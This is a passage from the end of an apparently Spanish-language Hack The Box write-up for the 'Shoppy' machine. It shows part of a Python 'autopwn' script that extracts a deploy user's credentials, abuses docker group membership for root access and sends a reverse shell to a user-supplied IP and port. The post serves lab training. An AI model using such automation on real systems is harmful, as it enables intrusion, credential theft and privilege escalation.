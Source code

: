 ```python
	# (3) ssh login (jaeger user), privileges for specific command and binary reverse engineering (get credentials)
	process.status('Extracting the Jaeger credentials for the Deploy machine')
	deploy_user_username, deploy_user_password = get_deploy_user_credentials(deploy_machine_username, deploy_machine_password)
	log.success(f'Credentials obtained: {deploy_user_username}:{deploy_user_password}')


	# (4) ssh login (deploy user) and mount root system with docker socket to execute reverse shell
	process.status('Abusing docker group membership to run privileged commands')
	interactive_shell(args, deploy_user_username, deploy_user_password)

if __name__ == '__main__':
	parser = argparse.ArgumentParser(
		description='Autopwn Shoppy HTB Machine',
		formatter_class=argparse.RawDescriptionHelpFormatter,
		epilog="""Example:
		autopwn.py -i 10.10.10.10 -p 4444
		""")

	parser.add_argument('-i', '--ip', required=True, help='specified IP to receive the shell')
	parser.add_argument('-p', '--port', required=True, help='specified PORT to receive the shell')

	args = parser.parse_args()

	run(args)

# References:
#------------
# https://api.mattermost.com/#tag/authentication
```

![autopwn-run](autopwn_run.png){: .shadow}

> Puedes encontrar el script en mi repositorio [https://github.com/E1P0TR0](https://github.com/E1P0TR0/CVE-Machines_htb/tree/main/Autopwn_Shoppy)
{: .prompt-info}
